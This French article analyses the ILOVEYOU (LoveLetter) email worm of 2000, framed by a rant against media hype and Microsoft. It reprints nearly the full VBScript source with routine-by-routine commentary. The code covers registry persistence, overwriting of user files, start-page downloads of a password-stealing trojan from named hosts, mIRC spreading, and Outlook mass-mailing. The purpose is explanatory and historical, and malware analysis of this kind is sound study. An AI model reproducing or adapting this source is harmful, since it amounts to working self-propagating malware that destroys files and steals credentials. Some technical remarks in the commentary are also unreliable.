




Il ne se passe pas une année sans une, deux, voir plusieurs vagues de virus faisant la une des médias avec leurs lots de bulletins d'alerte et de sécurité venant des sociétés d'anti-virus (au moins elles ont le sens du commerce celles-là, il n'y a pas à dire!!)... et? ah, oui! Et de cette éternelle firme de Redmond qui est plus occupée à compter ses milliards que de se soucier de faire des passoires quand ce ne sont pas des casseroles et qui nous balance ensuite le plus sérieusement du monde un "patch" (qu'est-ce qu'on rigole... tiens en passant je croyais que le téléchargement d'exécutables pouvant changer tout ou partie de programmes était puni par la loi :p ) pour colmater la brèche (alors là je suis par terre!), jusqu'au prochain bulletin d'alerte.
Mais bon, on s'habitue (?) à ce dernier, ce n'est pas la première fois qu'il nous joue des tours pareils. Par contre ce qui m'irrite profondément et à quoi je ne m'habituerai ja-mais, c'est cette hystérie des médias à vomir à longueur de journée les mots "virus", "hacker", "pirates", à transformer des choses techniquement simples en compliquées, obscures pour le seul bonheur d'aguicher le lecteur et la ménagère de moins de 50 ans, de se donner une couleur IT-managing-business-je_t_en_mets_plein_la_vue_alors_que_je_ne_sais_pas_de_quoi_je_parle...
Aussi pour illustrer cette irresponsabilité machiavélique et aller "regarder sous le capot" pour se rendre compte des conneries qu'on nous enfonce dans le crâne à longueur de journée (et pour notre knowledge ;) ), nous allons étudier la structure d'un ver/virus, et pas n'importe lequel car il s'agit du fameux
I LOVE YOU
I LOVE YOU est un ver apparu en 2000 (création théorique, le 04.mai 2000 à 21:32 ? - date inscrite dans le code du ver par son auteur) et a frappé les ordis jusque 3-4 mois après. Il est l'un des vers le plus célèbre par la vitesse de propagation. Jusqu'à 45 millions d'ordinateurs furent infectés, la majorité de manière rapide. L'étendue des dégâts fut chiffrée en millions de dollars.
Le ver a été écrit par De Guzman, aka spyder, étudiant informatique de 19 ans à Manille aux Philippines. Vous voulez lui écrire? Essayez ici si son compte mail est toujours actif ;o)

Au passage, les gens ne regardent même pas et ne sont pas choqués par un fichier .TXT qui est de type "Fichier script VBScript"... Sans commentaire! Sans compter ceux d'entre eux qui ont l'option "ouvrir les attachements automatiquement" activée par défaut dans Outlook Express. Ce n'est pas étonnant qu'il y ait ensuite une telle hécatombe...

Il est composé d'une procédure principale regroupant 8 sous-procédures (main, regruns, listadriv, infectfiles, folderlist, regcreate, spreadtoemail, html) et 3 fonctions (regget, fileexist, folderexist). Les noms sont assez explicites, et cela semble déjà vraiment alarmant de voir qu'avec un code "simpliste" on fait autant de dégâts. Ca illustre l'état déplorable et la vulnérabilité réelle des systèmes windows. C'EST UNE HONTE!!! :o(
Les différents éléments s'emboîtent de la manière suivante (à noter la non utilisation de folderexist(). Une erreur de programmation de l'auteur?) :

(En bleu les fonctions, et en noir les sous-routines)
L'en-tête :
rem barok -loveletter(vbe) <i hate go to school>
rem by: spyder / ispyder@mail.com / @GRAMMERSoft Group / Manila,Philippines
On Error Resume Next
dim fso,dirsystem,dirwin,dirtemp,eq,ctr,file,vbscopy,dow
eq=""
ctr=0
Set fso = CreateObject("Scripting.FileSystemObject")
set file = fso.OpenTextFile(WScript.ScriptFullname,1)
vbscopy=file.ReadAll
|
Il contient des informations relatives à son auteur en commentaire, puis les déclarations des variables.
La fonction principale main() :
main()
sub main()
On Error Resume Next
dim wscr,rr
set wscr=CreateObject("WScript.Shell")
rr=wscr.RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout")
if (rr>=1) then
wscr.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout",0,"REG_DWORD"
end if
Set dirwin = fso.GetSpecialFolder(0)
Set dirsystem = fso.GetSpecialFolder(1)
Set dirtemp = fso.GetSpecialFolder(2)
Set c = fso.GetFile(WScript.ScriptFullName)
c.Copy(dirsystem&"\MSKernel32.vbs")
c.Copy(dirwin&"\Win32DLL.vbs")
c.Copy(dirsystem&"\LOVE-LETTER-FOR-YOU.TXT.vbs")
regruns()
html()
spreadtoemail()
listadriv()
end sub
|
Cette routine teste la présence d'une valeur dans la clé Timeout de la branche Windows Scripting Host ci-dessus de la bdr. S'il y a une valeur, elle est écrasée à 0. Sinon il n'y a pas de changement. Ensuite, les fichiers MSKernel32.vbs, LOVE-LETTER-FOR-YOU.TXT.vbs sont copiés/créés dans le répertoire système de windows (C:\windows\system32) et Win32DLL.vbs dans C:\windows. Enfin, les quatre sous-routines principales regruns(), html(), spreadtoemail() et listadriv() sont appelées.
La sous-routine regruns() :
sub regruns()
On Error Resume Next
Dim num,downread
regcreate "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKernel32",dirsystem&"\MSKernel32.vbs"
regcreate "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\Win32DLL",dirwin&"\Win32DLL.vbs"
downread=""
downread=regget("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Download Directory")
if (downread="") then
downread="c:\"
end if
if (fileexist(dirsystem&"\WinFAT32.exe")=1) then
Randomize
num = Int((4 * Rnd) + 1)
if num = 1 then
regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~young1s/HJKhjnwerhjkxcvytwertnMTFwetrdsfmhPnjw6587345gvsdf7679njbvYT/WIN-BUGSFIX.exe"
elseif num = 2 then
regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~angelcat/skladjflfdjghKJnwetryDGFikjUIyqwerWe546786324hjk4jnHHGbvbmKLJKjhkqj4w/WIN-BUGSFIX.exe"
elseif num = 3 then
regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~koichi/jf6TRjkcbGRpGqaq198vbFV5hfFEkbopBdQZnmPOhfgER67b3Vbvg/WIN-BUGSFIX.exe"
elseif num = 4 then
regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~chu/sdgfhjksdfjklNBmnfgkKLHjkqwtuHJBhAFSDGjkhYUgqwerasdjhPhjasfdglkNBhbqwebmznxcbvnmadshfgqw237461234iuy7thjg/WIN-BUGSFIX.exe"
end if
end if
if (fileexist(downread&"\WIN-BUGSFIX.exe")=0) then
regcreate "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\WIN-BUGSFIX",downread&"\WIN-BUGSFIX.exe"
regcreate "HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Start Page","about:blank"
end if
end sub
|
Le ver créé ensuite les clés MSKernel32 (valeur MSKernel32.vbs), Win32DLL (valeur Win32DLL.vbs) dans la sous branche de HKLM qui lance les programmes automatiquement au démarrage de l'ordinateur. Il teste l'existence d'un répertoire de téléchargement par défaut, sinon considère ce répertoire comme étant c:\. Puis, il cherche le fichier "WinFAT32.exe" dans le répertoire système. S'il y est, une url de téléchargement du fichier "WIN-BUGSFIX.exe" (un cheval de Troie) est créée au hasard parmi 4 choix possibles (4 comptes différents chez www.skyinet.net) dans la base de registre, qui correspond à la page affichée par défaut au démarrage de internet explorer. S'il le trojan n'est pas dans le répertoire système, il teste la présence de "WIN-BUGSFIX.exe" dans C:\. S'il y est, la clé WIN-BUGSFIX (valeur WIN-BUGSFIX.exe) est créée dans la sous-branche RUN de HKLM qui lance les programmes automatiquement au démarrage de l'ordinateur, et la page de démarrage de internet explorer est remise a blanc.
Dans cette partie, le ver vérifie la présence du trojan "WIN-BUGSFIX.exe" sur l'ordi infecté ou cherche à le télécharger en mettant l'url de téléchargement comme page de démarrage de IE, s'il n'y est pas. Les 4 comptes ou le ver tente de télécharger le trojan ont été rapidement désactivé lors de l'apparition du ver sur le net.
Il semblerait que le trojan envoie un mail avec les mots de passes qu'il trouve sur l'ordi de la victime :
-------------copy of email sent----------- From: [victim machine name]@[victim IP address] To: mailme@super.net.ph Subject: Barok... email.passwords.sender.trojan X-Mailer: Barok... email.passwords.sender. trojan---by: spyder Host: [machine name] Username: [user name] IP Address: [victim IP address] RAS Passwords:...[victim password info] Cache Passwords:...[victim password info] -------------copy of email sent-----------
La sous-routine listadriv :
sub listadriv On Error Resume Next Dim d,dc,s Set dc = fso.Drives For Each d in dc If d.DriveType = 2 or d.DriveType=3 Then folderlist(d.path&"\") end if Next listadriv = s end sub |
Cette sous routine liste les disques durs présents dans l'ordinateur infecté ainsi que les disques durs accessibles en réseau.
La sous-routine infectfiles() :
sub infectfiles(folderspec)
On Error Resume Next
dim f,f1,fc,ext,ap,mircfname,s,bname,mp3
set f = fso.GetFolder(folderspec)
set fc = f.Files
for each f1 in fc
ext=fso.GetExtensionName(f1.path)
ext=lcase(ext)
s=lcase(f1.name)
if (ext="vbs") or (ext="vbe") then
set ap=fso.OpenTextFile(f1.path,2,true)
ap.write vbscopy
ap.close
elseif(ext="js") or (ext="jse") or (ext="css") or (ext="wsh") or (ext="sct") or (ext="hta") then
set ap=fso.OpenTextFile(f1.path,2,true)
ap.write vbscopy
ap.close
bname=fso.GetBaseName(f1.path)
set cop=fso.GetFile(f1.path)
cop.copy(folderspec&"\"&bname&".vbs")
fso.DeleteFile(f1.path)
elseif(ext="jpg") or (ext="jpeg") then
set ap=fso.OpenTextFile(f1.path,2,true)
ap.write vbscopy
ap.close
set cop=fso.GetFile(f1.path)
cop.copy(f1.path&".vbs")
fso.DeleteFile(f1.path)
elseif(ext="mp3") or (ext="mp2") then
set mp3=fso.CreateTextFile(f1.path&".vbs")
mp3.write vbscopy
mp3.close
set att=fso.GetFile(f1.path)
att.attributes=att.attributes+2
end if
if (eq<>folderspec) then
if (s="mirc32.exe") or (s="mlink32.exe") or (s="mirc.ini") or (s="script.ini") or (s="mirc.hlp") then
set scriptini=fso.CreateTextFile(folderspec&"\script.ini")
scriptini.WriteLine "[script]"
scriptini.WriteLine ";mIRC Script"
scriptini.WriteLine ";Please dont edit this script... mIRC will corrupt, if mIRC will"
scriptini.WriteLine ";corrupt... WINDOWS will affect and will not run correctly. thanks"
scriptini.WriteLine ";"
scriptini.WriteLine ";Khaled Mardam-Bey"
scriptini.WriteLine ";http://www.mirc.com"
scriptini.WriteLine ";"
scriptini.WriteLine "n0=on 1:JOIN:#:{"
scriptini.WriteLine "n1= /if ( $nick == $me ) { halt }"
scriptini.WriteLine "n2= /.dcc send $nick "&dirsystem&"\LOVE-LETTER-FOR-YOU.HTM"
scriptini.WriteLine "n3=}"
scriptini.close
eq=folderspec
end if
end if
next
end sub
|
Ici, le ver recherche les fichiers avec extension .vbs .vbe (visual basic script), .js .jse (javascript) .wsh .sct .hta (?) .css (feuille de style html), .jpg .jpeg (images), .mp3 .mp2 (musique) et copie le code du ver à la fin du fichier.
Puis le ver cherche si mIRC est installé sur l'ordi et crée le fichier script.ini pour que le programme envoie a la connexion le fichier "LOVE-LETTER-FOR-YOU.HTM" par dcc a tout le monde sauf a soi dans le channel que l'on a joint. Ce fichier prévient l'utilisateur de ne pas le modifier sous peine de corrompre Windows. Le tout signé du programmeur de mIRC (Khaled Mardam-Bey). Nul doute qu'il a du apprécier la plaisanterie...
La sous-routine folderlist() :
sub folderlist(folderspec) On Error Resume Next dim f,f1,sf set f = fso.GetFolder(folderspec) set sf = f.SubFolders for each f1 in sf infectfiles(f1.path) folderlist(f1.path) next end sub |
Cette sous-routine cherche tous les sous-répertoires présents dans un répertoire donné et infecte les fichiers présents qui correspondent à ceux listé dans infectfiles().
La sous-routine regcreate() :
sub regcreate(regkey,regvalue)
Set regedit = CreateObject("WScript.Shell")
regedit.RegWrite regkey,regvalue
end sub
|
Permet de créer une clé avec sa valeur dans une branche de la base de registre.
La fonction regget() :
function regget(value)
Set regedit = CreateObject("WScript.Shell")
regget=regedit.RegRead(value)
end function
|
Permet de lire une valeur dans une clé de la base de registre.
La fonction fileexist() :
function fileexist(filespec) On Error Resume Next dim msg if (fso.FileExists(filespec)) Then msg = 0 else msg = 1 end if fileexist = msg end function |
Fonction qui teste l'existence d'un fichier en regardant la variable msg (de type WM_MSG).
La fonction folderexist() :
function folderexist(folderspec) On Error Resume Next dim msg if (fso.GetFolderExists(folderspec)) then msg = 0 else msg = 1 end if fileexist = msg end function |
Fonction qui teste l'existence d'un répertoire en regardant la variable msg (de type WM_MSG).
La fonction spreadtoemail() :
sub spreadtoemail()
On Error Resume Next
dim x,a,ctrlists,ctrentries,malead,b,regedit,regv,regad
set regedit=CreateObject("WScript.Shell")
set out=WScript.CreateObject("Outlook.Application")
set mapi=out.GetNameSpace("MAPI")
for ctrlists=1 to mapi.AddressLists.Count
set a=mapi.AddressLists(ctrlists)
x=1
regv=regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a)
if (regv="") then
regv=1
end if
if (int(a.AddressEntries.Count)>int(regv)) then
for ctrentries=1 to a.AddressEntries.Count
malead=a.AddressEntries(x)
regad=""
regad=regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\"&malead)
if (regad="") then
set male=out.CreateItem(0)
male.Recipients.Add(malead)
male.Subject = "ILOVEYOU"
male.Body = vbcrlf&"kindly check the attached LOVELETTER coming from me."
male.Attachments.Add(dirsystem&"\LOVE-LETTER-FOR-YOU.TXT.vbs")
male.Send
regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&malead,1,"REG_DWORD"
end if
x=x+1
next
regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a,a.AddressEntries.Count
else
regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a,a.AddressEntries.Count
end if
next
Set out=Nothing
Set mapi=Nothing
end sub
|
Le ver utilise des fonctions MAPI pour appeler Outlook et envoyer un mail avec le ver en attachement (voir image du mail plus haut) à toutes les personnes présentes dans le carnet d'adresse. Chaque personne à qui un mail a été envoyé est enregistrée dans la base de registre pour que le ver ne lui envoie pas 2 fois le mail.
La sous-routine html :
sub html
On Error Resume Next
dim lines,n,dta1,dta2,dt1,dt2,dt3,dt4,l1,dt5,dt6
dta1="<HTML><HEAD><TITLE>LOVELETTER - HTML<?-?TITLE><META NAME=@-@Generator@-@ CONTENT=@-@BAROK VBS - LOVELETTER@-@>"&vbcrlf& _
"<META NAME=@-@Author@-@ CONTENT=@-@spyder ?-? ispyder@mail.com ?-? @GRAMMERSoft Group ?-? Manila, Philippines ?-? March 2000@-@>"&vbcrlf& _
"<META NAME=@-@Description@-@ CONTENT=@-@simple but i think this is good...@-@>"&vbcrlf& _
"<?-?HEAD><BODY ONMOUSEOUT=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU.HTM#-#,#-#main#-#)@-@ "&vbcrlf& _
"ONKEYDOWN=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU.HTM#-#,#-#main#-#)@-@ BGPROPERTIES=@-@fixed@-@ BGCOLOR=@-@#FF9933@-@>"&vbcrlf& _
"<CENTER><p>This HTML file need ActiveX Control<?-?p><p>To Enable to read this HTML file<BR>- Please press #-#YES#-# button to Enable ActiveX<?-?p>"&vbcrlf& _
"<?-?CENTER><MARQUEE LOOP=@-@infinite@-@ BGCOLOR=@-@yellow@-@>----------z--------------------z----------<?-?MARQUEE> "&vbcrlf& _
"<?-?BODY><?-?HTML>"&vbcrlf& _
"<SCRIPT language=@-@JScript@-@>"&vbcrlf& _
"<!--?-??-?"&vbcrlf& _
"if (window.screen){var wi=screen.availWidth;var hi=screen.availHeight;window.moveTo(0,0);window.resizeTo(wi,hi);}"&vbcrlf& _
"?-??-?-->"&vbcrlf& _
"<?-?SCRIPT>"&vbcrlf& _
"<SCRIPT LANGUAGE=@-@VBScript@-@>"&vbcrlf& _
"<!--"&vbcrlf& _
"on error resume next"&vbcrlf& _
"dim fso,dirsystem,wri,code,code2,code3,code4,aw,regdit"&vbcrlf& _
"aw=1"&vbcrlf& _
"code="
dta2="set fso=CreateObject(@-@Scripting.FileSystemObject@-@)"&vbcrlf& _
"set dirsystem=fso.GetSpecialFolder(1)"&vbcrlf& _
"code2=replace(code,chr(91)&chr(45)&chr(91),chr(39))"&vbcrlf& _
"code3=replace(code2,chr(93)&chr(45)&chr(93),chr(34))"&vbcrlf& _
"code4=replace(code3,chr(37)&chr(45)&chr(37),chr(92))"&vbcrlf& _
"set wri=fso.CreateTextFile(dirsystem&@-@^-^MSKernel32.vbs@-@)"&vbcrlf& _
"wri.write code4"&vbcrlf& _
"wri.close"&vbcrlf& _
"if (fso.FileExists(dirsystem&@-@^-^MSKernel32.vbs@-@)) then"&vbcrlf& _
"if (err.number=424) then"&vbcrlf& _
"aw=0"&vbcrlf& _
"end if"&vbcrlf& _
"if (aw=1) then"&vbcrlf& _
"document.write @-@ERROR: can#-#t initialize ActiveX@-@"&vbcrlf& _
"window.close"&vbcrlf& _
"end if"&vbcrlf& _
"end if"&vbcrlf& _
"Set regedit = CreateObject(@-@WScript.Shell@-@)"&vbcrlf& _
"regedit.RegWrite @-@HKEY_LOCAL_MACHINE^-^Software^-^Microsoft^-^Windows^-^CurrentVersion^-^Run^-^MSKernel32@-@,dirsystem&@-@^-^MSKernel32.vbs@-@"&vbcrlf& _
"?-??-?-->"&vbcrlf& _
"<?-?SCRIPT>"
dt1=replace(dta1,chr(35)&chr(45)&chr(35),"'")
dt1=replace(dt1,chr(64)&chr(45)&chr(64),"""")
dt4=replace(dt1,chr(63)&chr(45)&chr(63),"/")
dt5=replace(dt4,chr(94)&chr(45)&chr(94),"\")
dt2=replace(dta2,chr(35)&chr(45)&chr(35),"'")
dt2=replace(dt2,chr(64)&chr(45)&chr(64),"""")
dt3=replace(dt2,chr(63)&chr(45)&chr(63),"/")
dt6=replace(dt3,chr(94)&chr(45)&chr(94),"\")
set fso=CreateObject("Scripting.FileSystemObject")
set c=fso.OpenTextFile(WScript.ScriptFullName,1)
lines=Split(c.ReadAll,vbcrlf)
l1=ubound(lines)
for n=0 to ubound(lines)
lines(n)=replace(lines(n),"'",chr(91)+chr(45)+chr(91))
lines(n)=replace(lines(n),"""",chr(93)+chr(45)+chr(93))
lines(n)=replace(lines(n),"\",chr(37)+chr(45)+chr(37))
if (l1=n) then
lines(n)=chr(34)+lines(n)+chr(34)
else
lines(n)=chr(34)+lines(n)+chr(34)&"&vbcrlf& _"
end if
next
set b=fso.CreateTextFile(dirsystem+"\LOVE-LETTER-FOR-YOU.HTM")
b.close
set d=fso.OpenTextFile(dirsystem+"\LOVE-LETTER-FOR-YOU.HTM",2)
d.write dt5
d.write join(lines,vbcrlf)
d.write vbcrlf
d.write dt6
d.close
end sub
|
Ici, le code affiche une page html qui demande à l'utilisateur de télécharger un contrôle ActiveX pour faire une mise à jour de l'ordinateur. Ce contrôle n'est rien d'autre que le ver lui-même. En l'activant, on le fait se propager dans l'ordinateur. A noter que pour la page, le code "en clair" se présente de la manière suivante :

On note aucun(e) appel/utilisation de la fonction folderexist(). Bien que ce soit un élément négligeable dans le code du ver, il est surprenant de coder quelque chose pour ne pas s'en servir.
Autre point, les données en clair dans tout le code permettant d'identifier l'auteur, comme s'il faisait un test ou voulait montrer ce code a quelqu'un, mais pas vraiment contaminer la planète. De Gunzman a dit pour sa défense lors d'une audition au tribunal ne pas avoir voulu répandre le virus mais vouloir montrer dans le cadre de son projet d'université que la sécurité des ordinateurs était très mauvaise.
Pour terminer cet article, il existe 3 causes de propagation d'un ver (1/3 de responsabilité CHACUNS pénalement parlant serait le MINIMUM!!!) :
On voit donc qu'avec des commandes toutes simples, on peut créer un script qui a fait trembler le monde informatique et excité les journalistes à sensations pendant un long moment. C'est plutôt triste à pleurer quand on voit la simplicité du ver et les dégâts qui sont faits !
Les vers/virus ne sont peut être pas inutiles. Ils peuvent dans certains cas modéliser un "être" (au sens mathématique et biologique du terme) et montrer les limites d'un modèle. Cela permet de se rendre compte des failles et d'augmenter le niveau de ce modèle en corrigeant ses erreurs. Et se rendre compte de leur propagation dans le système "Internet" peut apporter des informations sur le fonctionnement d'un système avec application dans les "algorithmes de vie" pour les robots, le structures de génomes... pour ne citer que quelques applications.